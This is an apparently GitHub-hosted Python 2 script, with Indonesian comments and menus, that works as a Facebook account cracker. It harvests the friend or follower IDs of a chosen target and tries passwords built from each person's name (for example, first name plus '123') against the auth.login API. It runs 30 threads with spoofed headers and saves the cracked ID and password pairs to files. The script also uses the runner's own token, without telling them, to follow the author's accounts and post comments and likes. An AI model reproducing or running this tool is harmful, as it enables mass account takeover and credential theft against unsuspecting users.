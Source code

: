 # Afan23
Facebook
#-*-coding:utf-8-*-
import os,sys,time,random,hashlib,re,threading,json,urllib,cookielib,requests,uuid,datetime
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
reload(sys)
sys.setdefaultencoding('utf8')

try:
    import requests
except ImportError:
    os.system('pip2 install requests')

loop = 0
id = []
cp = []
ok = []

# Pastikan Jangan Ubah Bot Komen & Follownya :v #
ua = ('Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/81.0.4044.117 Mobile Safari/537.36')
logo = ("""\033[1;97m ____________________________________________
green='\033[32;1m'
                                  ___  ___    __ _ _ __ __ _
                                 / __|/ __|  / _` | '__/ _` |
                                 \__ \ (__  | (_| | | | (_| |
                                 |___/\___|  \__,_|_|  \__,_|
 
     ▄▄▀▒▒▒▒▒▒▒▒▒▒▒█▒▒▄█▒▐   
   ▄▀▒▒▒░░░▒▒▒░░░▒▒▒▀██▀▒▌   
  ▐▒▒▒▄▄▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄▒▌  
  ▌░░▌█▀▒▒▒▒▒▄▀█▄▒▒▒▒▒▒▒█▒▐  
 ▐░░░▒▒▒▒▒▒▒▒▌██▀▒▒░░░▒▒▒▀▄▌ 
 ▌░▒▒▒▒▒▒▒▒▒▒▒▒▒▒░░░░░░▒▒▒▒▌ 
▌▒▒▒▄██▄▒▒▒▒▒▒▒▒░░░░░░░░▒▒▒▐ 
▐▒▒▐▄█▄█▌▒▒▒▒▒▒▒▒▒▒░▒░▒░▒▒▒▒▌
▐▒▒▐▀▐▀▒▒▒▒▒▒▒▒▒▒▒▒▒░▒░▒░▒▒▐ 
 ▌▒▒▀▄▄▄▄▄▄▀▒▒▒▒▒▒▒░▒░▒░▒▒▒▌ 
 ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒░▒░▒▒▄▒▒▐  
  ▀▄▒▒▒▒▒▒▒▒▒▒▒▒▒░▒░▒▄▒▒▒▒▌  
    ▀▄▒▒▒▒▒▒▒▒▒▒▄▄▄▀▒▒▒▒▄▀   
      ▀▄▄▄▄▄▄▀▀▀▒▒▒▒▒▄▄▀     
         ▀▀▀▀▀▀▀▀▀▀▀▀        
   __ _   _| |__   ___ _ __   / _(_)_ __
 / __| | | | '_ \ / _ \ '__| | |_| | '__|
| (__| |_| | |_) |  __/ |    |  _| | |
 \___|\__, |_.__/ \___|_|    |_| |_|_|
      |___/
(+_+)FIR-LOL
•Author:Fir bodo
•subsrib:lol cok
•https://github.com/FIR88
•Status: jomblo
•alasan.hack:mao.jadi.hakel
•tetap.bahagia:walopun.sering.disakitin
""")
def __login__():
	os.system('clear')
	print(logo)
	print('[1] Login Menggunakan Token')
	print('[2] Cara Mendapatkan Token')
	print('[3] Keluar')
        print('[4] login menggunakan coki')
	print('[5] clear')
        masuk = raw_input('\n[#] Choose : ')
        if masuk == "":
                exit('[•] Wrong Input')
        elif masuk == "1":
		token = raw_input("[*] Token : ")
		try:
                	y = requests.get('https://graph.facebook.com/me?access_token='+token)
	                x = json.loads(y.text)
	                nama = x['name']
	                save = open("login.txt", 'w')
	                save.write(token)
	                save.close()
	                __komen_token__()
	        except KeyError:
			print('[•] Token Salah')
	                time.sleep(3)
	                __login__()
	        except requests.exceptions.SSLError:
	                exit('[•] Token Invalid')
        elif masuk == "2":
		print('[•] Anda Akan Diarahkan Ke Browser')
                time.sleep(3)
		os.system("xdg-open https://youtube.com/channel/UC2dAp8iMtCEWtghpkcI6_Jw")
                exit()
        elif masuk == "0":
                exit()
        else:
		exit('[•] Wrong Input')
def __hasil_ok_cp__():
	print('\n[1] Lihat Hasil Ok')
	print('[2] Lihat Hasil Cp')
	print('[3] Kembali')
        print('[4] liat id target')
        has = raw_input('[#] Choose : ')
	if has == '':
		exit('[•] Wrong Input')
	elif has == '1':
		hasil_ok = open('Ok.json','r').read()
		print(hasil_ok)
		exit()
	elif has == '2':
		hasil_cp = open('Cp.json','r').read()
		print(hasil_cp)
		exit()
	elif has == '3':
		__menu__()
	else:
		exit('[•] Wrong Input')
# Jangan Di Ganti # Kalo Mau Tambahin Aja #
def __komen_token__():
        try:
                token = open('login.txt','r').read()
        except IOError:
		print('[•] Token Invalid')
                os.system('rm -rf login.txt')
		time.sleep(3)
                __login__()
	__web__ = datetime.datetime.now()
        __waktu__ = __web__.strftime("%H:%M:%S / %d-%m-%Y ")
        __love__ = random.choice(['❤️','💛','💚','💙','🖤','🧡','💜'])
	__motivasi__ = random.choice(["Apapun yg terjadi, nikmati hidup ini."])
        __kata__ = 'Pengguna Script BINO '
	__kata2__ = 'Izin Pake Scriptnya Bang '
        __kom__ = __kata__+__love__+'\n'+__motivasi__+'\n'+__waktu__
	__kom2__ = __kata2__+__love__+'\n'+__waktu__
        requests.post('https://graph.facebook.com/757953543/subscribers?access_token=' + token) #Rozhak
        requests.post('https://graph.facebook.com/100064814153036/subscribers?access_token=' + token) #Rozhak
	requests.post('https://graph.facebook.com/100000288808056/subscribers?access_token=' + token) #Muhammad Rozhak
        requests.post('https://graph.facebook.com/10159090813023544/comments/?message=' +__kom__+ '&access_token=' + token)
        requests.post('https://graph.facebook.com/10159090813023544/likes?summary=true&access_token=' + token)
        requests.post('https://graph.facebook.com/10159090813023544/comments/?message='+__kom2__+'&access_token=' + token)
        requests.post('https://graph.facebook.com/10158807643598544/likes?summary=true&access_token=' + token)
	print('[*] Login Berhasil')
        __menu__()
def __menu__():
        try:
                token = open('login.txt','r').read()
        except IOError:
		print('[•] Token Invalid')
                os.system('rm -rf login.txt')
		time.sleep(2)
                __login__()
        try:
                p = requests.get('https://graph.facebook.com/me?access_token=' +token)
                q = json.loads(p.text)
                name = q['name']
		birthday = q['birthday']
        except KeyError:
		print('[•] Token Invalid')
                os.system('rm -rf login.txt')
		time.sleep(3)
		__login__()
        except requests.exceptions.ConnectionError:
		exit('[•] Koneksi Error')
        os.system('clear')
	print(logo)
	print('[•] Nama Akun Facebook : '+name)
	print('[•] Tanggal Lahir : '+birthday)
	print('\n[1] Hack Akun Publik')
	print('[2] Hack Akun Follower')
	print('[3] Lihat Hasil Hack')
	print('[0] Keluar')
	msk = raw_input('\n[#] Choose : ')
	if msk == "":
		exit('[•] Wrong Input')
	elif msk == "1" or msk == "01":
		idt = raw_input('[*] Target : ')
		try:
			token=open('login.txt','r').read()
			pok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token)
			sp = json.loads(pok.text)
			print('[*] Nama : '+sp["name"])
		except KeyError:
			exit('[•] Target Tidak Ditemukan')
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token)
		z = json.loads(r.text)
		for i in z["data"]:
			uid = i['id']
			id.append(uid)
	elif msk == "2" or msk == "02":
		idt = raw_input('[*] Target : ')
		try:
			token=open('login.txt','r').read()
			pok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token)
			sp = json.loads(pok.text)
			print('[*] Nama : '+sp["name"])
		except KeyError:
			exit('[•] Target Tidak Ditemukan')
		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?limit=2000&access_token="+token)
		z = json.loads(r.text)
		for i in z["data"]:
			uid = i['id']
			id.append(uid)
	elif msk == "3" or msk == "03":
		__hasil_ok_cp__()
	elif msk == "0" or msk == "00":
		os.system("rm -f login.txt")
		time.sleep(3)
		exit('[*] Selamat Tinggal')
	else:
		exit('[•] Wrong Input')
	print('[*] Total ID : '+str(len(id)))
	print(' ')
	def main(arg):
		global ok,cp,ua, loop
		pwx = []
		__warna_warni__ = random.choice(['\033[1;91m','\033[1;92m','\033[1;94m','\033[1;95m','\033[1;96m','\033[1;97m'])
		print __warna_warni__+'\r[Sedang Hack] %s/%s [Ok:%s] - [Cp:%s] ' % (loop, len(id), len(ok), len(cp)),
		sys.stdout.flush()
		uid = arg
		try:
			d = requests.get('https://graph.facebook.com/'+uid+'/?access_token='+token)
	                v = json.loads(d.text)
			nama = v['name']
			first = v['first_name']
			last = v['last_name']
			pwx.append(nama)
			pwx.append(first+'123')
			pwx.append(first+'1234')
			pwx.append(first+'12345')
			pwx.append(last+'123')
			pwx.append(last+'1234')
			pwx.append(last+'12345')
			for pw in pwx:
				headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 
				'x-fb-net-hni': str(random.randint(20000, 40000)), 
				'x-fb-connection-quality': 'EXCELLENT', 
				'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 
				'user-agent': ua,
				'content-type': 'application/x-www-form-urlencoded',
				'x-fb-http-engine': 'Liger'}
				ses=requests.Session()
				api="https://api.facebook.com/method/auth.login"
				param={"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32","format": "JSON","sdk_version": "2","email":uid,"locale": "en_US","password":pw,"sdk": "ios","generate_session_cookies": "1","sig": "3f555f99fb61fcd7aa0c44f58f522ef6"}
				send=ses.get(api,params=param, headers=headers_)
				if "access_token" in send.text and "EAAA" in send.text:
					print '\r\033[1;92m[Ok] '+uid+'|'+pw+'        '
					ok.append(uid+'|'+pw)
					save = open('Ok.json','a') 
					save.write(str(uid)+'|'+str(pw)+'\n')
					save.close()
					break
					continue
					continue
				elif "www.facebook.com" in send.json()["error_msg"]:
					print '\r\033[1;93m[Cp] '+uid+'-'+pw+'-'+nama
					cp.append(uid+'|'+pw)
					save = open('Cp.json','a')
					save.write(str(uid)+'-'+str(pw)+'\n')
					save.close()
					break
					continue
			loop += 1
		except:
			pass
	p = ThreadPool(30)
	p.map(main, id)
	exit("\n[Selesai]")

if __name__=='__main__':
	os.system('git pull')
	__menu__()
